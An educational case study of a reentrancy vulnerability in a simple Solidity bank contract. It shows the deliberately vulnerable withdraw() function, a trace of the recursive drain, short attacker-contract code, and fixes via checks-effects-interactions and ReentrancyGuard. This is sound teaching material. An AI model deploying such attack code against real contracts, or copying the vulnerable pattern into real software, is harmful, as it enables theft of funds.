

# Reentrancy Vulnerability in Smart Contracts: A Case Study

## Introduction

Reentrancy vulnerabilities have been a persistent threat in smart contract security, leading to significant financial losses in the past. This article examines a classic reentrancy vulnerability in a simple bank contract, demonstrating how it can be exploited and proposing methods to prevent such attacks.

## Vulnerability Explanation

The reentrancy vulnerability occurs when a contract function can be interrupted before it finishes executing and called again. This can happen when the contract sends Ether to an external address before updating its internal state. If the receiving address is a malicious contract, it can call back into the vulnerable contract before the first invocation completes, potentially draining funds or causing other unexpected behavior.

In our case, the VulnerableBank contract allows users to deposit and withdraw Ether. The vulnerability lies in the withdraw() function, which sends Ether to the user before updating their balance. This creates a window of opportunity for an attacker to call withdraw() multiple times before their balance is set to zero.

## Vulnerable Code

Let's examine the vulnerable part of the contract:

```solidity
function withdraw() public {
    uint256 balance = balances[msg.sender];
    require(balance > 0, "Insufficient balance");

    // Vulnerability: State is updated after the external call
    // This allows for potential reentrancy
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Transfer failed");

    // Balance is updated after the transfer
    balances[msg.sender] = 0;
}
```

The vulnerability stems from the order of operations:
1. The contract reads the user's balance.
2. It sends the Ether to the user.
3. Only after the transfer, it updates the user's balance to zero.

If the receiving address is a contract, it can execute code during the Ether transfer, allowing it to call withdraw() again before the balance is updated.

## Attack Explanation

The attack exploits this vulnerability through the following steps:

1. The attacker deploys a malicious contract (AttackerContract) that interacts with the vulnerable bank.
2. The attacker deposits 1 Ether into the bank.
3. The attacker calls the withdraw() function through their contract.
4. When the bank sends Ether to the attacker's contract, it triggers the receive() function.
5. The receive() function checks if the bank still has funds and calls withdraw() again.
6. This process repeats until the bank is drained of all its Ether.

Here's a sequence diagram illustrating the attack flow:



The stack trace shows this recursive pattern:

```
├─ [122065] AttackerContract::attack{value: 1000000000000000000}()
│   ├─ [22437] VulnerableBank::deposit{value: 1000000000000000000}()
│   ├─ [89750] VulnerableBank::withdraw()
│   │   ├─ [82322] AttackerContract::receive{value: 1000000000000000000}()
│   │   │   ├─ [81548] VulnerableBank::withdraw()
│   │   │   │   ├─ [74120] AttackerContract::receive{value: 1000000000000000000}()
│   │   │   │   │   ├─ [73346] VulnerableBank::withdraw()
...
```

This trace shows the recursive calls between the VulnerableBank's withdraw() function and the AttackerContract's receive() function, continuing until all funds are drained.

## Attack Code

The key parts of the AttackerContract are:

```solidity
receive() external payable {
    if (address(bank).balance >= ATTACK_AMOUNT) {
        bank.withdraw();
    }
}

function attack() external payable {
    require(
        msg.value == ATTACK_AMOUNT,
        "Please send exactly 1 ether to start the attack"
    );
    bank.deposit{value: ATTACK_AMOUNT}();
    bank.withdraw();
}
```

The attack() function initiates the attack by depositing and then immediately withdrawing. The receive() function is called when the bank sends Ether, and it recursively calls withdraw() as long as the bank has funds.

## Fix Proposal

To fix this vulnerability, we need to implement the "checks-effects-interactions" pattern. This means we should update the contract's state before making any external calls. Here's a fixed version of the withdraw() function:

```solidity
function withdraw() public {
    uint256 balance = balances[msg.sender];
    require(balance > 0, "Insufficient balance");

    // Update the balance before making the transfer
    balances[msg.sender] = 0;

    // Transfer the funds
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Transfer failed");
}
```

By updating the balance to zero before making the transfer, we prevent any possibility of reentrancy. Even if the receiving contract tries to call withdraw() again, the balance will already be zero, and the transaction will fail.

Additionally, using the OpenZeppelin ReentrancyGuard is a good practice:

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureBank is ReentrancyGuard {
    // ... other code ...

    function withdraw() public nonReentrant {
        // ... function body ...
    }
}
```

The nonReentrant modifier ensures that the function cannot be re-entered.

## Conclusion

Reentrancy vulnerabilities continue to pose a significant threat to smart contract security. As demonstrated in this case study, even a simple oversight in the order of operations can lead to complete loss of funds. Developers must be vigilant in implementing proper security measures, such as the checks-effects-interactions pattern and using proven security libraries like OpenZeppelin